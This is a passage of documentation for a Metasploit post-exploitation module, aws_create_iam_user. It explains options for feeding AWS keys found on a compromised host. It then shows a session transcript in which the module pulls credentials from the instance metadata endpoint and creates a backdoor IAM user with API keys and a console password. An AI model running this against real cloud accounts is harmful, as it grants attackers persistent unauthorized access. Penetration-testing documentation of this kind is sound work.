 ## Options

In the event that the session'd AWS instance does not have an IAM role assigned
to it with sufficient privileges, the following options can be used to provide
specific authentication material:

* `AccessKeyId`: set this if you find access keys on the host and instance has no profile/privileges
* `SecretAccessKey`: set this if you find access keys on the host and instance has no profile/privileges
* `Token`: set this if you find access keys on the host and instance has no profile/privileges. This is optional as this signifies temporary keys, if you find these, these are most likely expired.

The following options control the account that is being created:

* `IAM_USERNAME`: set this if you would like to control the username for to user to be created
* `CREATE_API`: when true, creates API keys for this user
* `CREATE_CONSOLE`: when true, creates a password for this user so that they can access the AWS console


## Abusing an Overly Permissive Instance Profile

Here we are assuming that we have taken over a host having an instance profile with
overly permissive access. Once a session is established, we can load
`aws_create_iam_user` and specify a meterpreter sesssion,
e.g., `SESSION 1` and run the exploit.

```
msf exploit(sshexec) > use auxiliary/admin/aws/aws_create_iam_user
msf post(aws_create_iam_user) > set SESSION 1
SESSION => 1
msf post(aws_create_iam_user) > exploit

[*] 169.254.169.254 - looking for creds...
[*] Creating user: gavgpsjXwj5HIxiz
[*] Creating group: gavgpsjXwj5HIxiz
[*] Creating group policy: gavgpsjXwj5HIxiz
[*] Adding user (gavgpsjXwj5HIxiz) to group: gavgpsjXwj5HIxiz
[*] Creating API Keys for gavgpsjXwj5HIxiz
[*] Creating password for gavgpsjXwj5HIxiz
AWS Account Information
=======================

UserName          GroupName         SecretAccessKey                           AccessKeyId           Password          AccountId
--------          ---------         ---------------                           -----------           --------          ---------
gavgpsjXwj5HIxiz  gavgpsjXwj5HIxiz  oX4csvu3Wun+GqVDzBHQ3FNfv41UhC4ibkLAmaW2  AKIAJRZQ2ENY45KKRBHQ  gavgpsjXwj5HIxiz  xxxxx

[+] AWS CLI/SDK etc can be accessed by configuring with the above listed values
[+] AWS console URL https://xxxxx.signin.aws.amazon.com/console may be used to access this account
[+] AWS loot stored at: /Users/yyyy/.msf4/loot/20161208140720_default_172.30.0.116_AWScredentials_099259.txt
```

